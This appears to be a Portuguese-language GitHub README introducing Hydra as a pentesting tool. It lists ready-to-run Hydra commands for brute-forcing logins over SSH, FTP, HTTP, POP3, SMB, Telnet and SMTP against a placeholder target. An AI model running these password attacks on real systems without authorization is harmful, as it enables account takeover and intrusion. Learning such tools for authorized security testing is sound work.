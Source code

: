 # Hydra
Nesse repositório abordarei mais a respeito do Hydra, que é um software conhecido em segurança da informação e pentest. Não é exatamente uma ferramenta "hacker", mas sim uma ferramenta que pode ser usada por profissionais para testar a segurança de sistemas e redes e analisar suas vulnerabilidades.

Se você se conhece, mas não conhece o inimigo, para cada vitória ganha. sofrerá também uma derrota. - antigo proverbio chinês.

Nos comandos o “username” é o nome do usuário que você deseja atacar e “password_list.txt” é o nome do arquivo de lista de senhas que você deseja usar para o ataque. O “target_ip” é o endereço IP do servidor que você deseja atacar.


Força bruta em SSH:

hydra -l username -P password_list.txt ssh://target_ip 

Força bruta em FTP:

hydra -l username -P password_list.txt ftp://target_ip  

Força bruta em HTTP:

hydra -L user_list.txt -P password_list.txt http://target_ip

Força Bruta em POP 3:

hydra -l username -P password_list.txt pop3://target_ip

Força Bruta em SMB:

hydra -l username -P password_list.txt smb://target_ip

Força Bruta em Telnet: 

hydra -l username -P password_list.txt telnet://target_ip

Força Bruta em SMTP:

hydra -l username -P password_list.txt smtp://target_ip
